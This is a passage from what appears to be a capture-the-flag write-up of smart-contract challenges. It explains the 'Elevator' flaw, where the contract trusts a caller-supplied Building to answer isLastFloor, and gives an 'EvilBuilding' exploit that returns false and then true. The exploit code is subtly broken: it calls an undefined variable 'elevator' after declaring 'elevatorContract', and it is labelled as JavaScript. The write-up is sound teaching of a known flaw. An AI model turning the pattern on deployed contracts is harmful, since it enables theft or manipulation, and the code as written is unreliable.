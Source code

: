 Now we should just do some arithmetic to clear all the funds and not having to donate again and withdraw. If we have 1 ether as initial balance keep it to multipliers of 10 and so on.

Challenge solved ✅

## Elevator

`with trust, everyone can get to the last floor`

### Challenge Description

This elevator won't let you reach the top of your building. Right?

### Analysis

![Elevator method](images/32f18465b7eeaabaeced84613e4e573847463c7b34aefd6d467fdd9d9f04d851.png)  
This function uses the method the msg.sender to know if the floor is accessible or not. The problem here is :

1. `Elevator` contract has no control over the logic of the `Building` contract.
2. The `goTo` function is actually `public` which makes it possible to have some state changes inside it. 

And all we need is to make the isLastFloor function returns false at first so we get inside the if block and true to set top. 

### Exploit

```js
interface Elevator { 
 function goTo(uint _floor) external;
}

contract EvilBuilding { 
    uint count= 0; 
    function isLastFloor(uint) external returns (bool){ 
        count ++ ; 
        return count%2==0 ? true : false; // The first time will pass false the second true
    }

    function callAttack(address ElevatorAddress) public {
        Elevator elevatorContract = Elevator(ElevatorAddress);
        elevator.goTo(10); // put any number here really
    }
}
```
